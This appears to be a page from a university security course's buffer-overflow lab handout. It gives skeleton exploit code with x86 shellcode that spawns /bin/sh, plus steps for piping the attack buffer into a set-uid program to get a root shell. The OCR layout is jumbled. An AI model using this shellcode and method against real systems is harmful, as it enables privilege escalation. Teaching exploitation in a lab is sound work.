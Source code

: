 </ul>

<pre>#include &lt;stdio.h&gt;#include &lt;string.h&gt;</pre>

<pre>#define BUFFER_SIZE 512</pre>

<pre>char shellcode[]=  "x31xc0"  "x50"  "x68""//sh"  "x68""/bin"  "x89xe3"  "x50"</pre>

<pre>  "x53"  "x89xe1"  "x99"  "xb0x0b"  "xcdx80"</pre>

;

int main() {

<pre>/* xorl/* pushl/* pushl/* pushl/* movl/* pushl/* pushl/* movl/* cdql/* movb/* int</pre>

<pre>%eax,%eax         */%eax              */$0x68732f2f       */$0x6e69622f       */%esp,%ebx         */%eax              */%ebx              */%esp,%ecx         */</pre>

<pre>                  */$0x0b,%al         */$0x80             */</pre>

<pre>    /* Initialize the buffer to all zeroes */    char buffer[BUFFER_SIZE] = {0};</pre>

<pre>    /* TODO: Fill the buffer with appropriate contents */</pre>

<pre>    /* Print out the contents of the attack buffer */    fwrite(buffer, BUFFER_SIZE, 1, stdout);    return 0;</pre>

}

CMSC 414: Computer and Network Security (Univ. of Maryland) 7

Variable addresses. Even though ASLR is disabled for this portion of the lab, there will still be inconsistencies between the addresses you see in gdb, as well as on different computers (such as the submit server). This happens even when running on the same virtual machine. To make sure your addresses stay constant when running in gdb, as well as on the submit server, we will be using a small shell script called fix.sh to fix these addresses.

Here is how you would debug a program while calling fix.sh: $ ./fix.sh gdb ./vuln1

You do not need to understand how this script works or modify it. All you need to do is prepend it to vuln1 before executing. Your final solution MUST work with fix.sh being run at the start.

Running your attack. After you finish the above program, do the following in a non-root shell. Compile the program in 32-bit mode (using the -m32 command-line argument to gcc). Run your exploit code and pipe the output to the vulnerable program. If your exploit is implemented correctly, when function build_info() returns it will execute your shellcode, giving you a root shell. Here are the commands you would issue, assuming that vuln1 has already been compiled (as in Section 5).

<pre>   $ gcc -m32 exploit1.c -o exploit1   $ ./exploit1 &gt; badfile   $ ./fix.sh ./vuln1       &lt;---- Notice the ’fix.sh’ being used   #                        &lt;---- Bingo! You’ve got a root shell!</pre>

That is considered success for this task!

As an aside, note that although you have obtained the “#” prompt, you are only a set-root-uid process and not a real-root process; i.e., your effective user id is root but your real user id is your original non-root id. You can check this by typing the following:

<pre>   # id   uid=(500) euid=0(root)</pre>
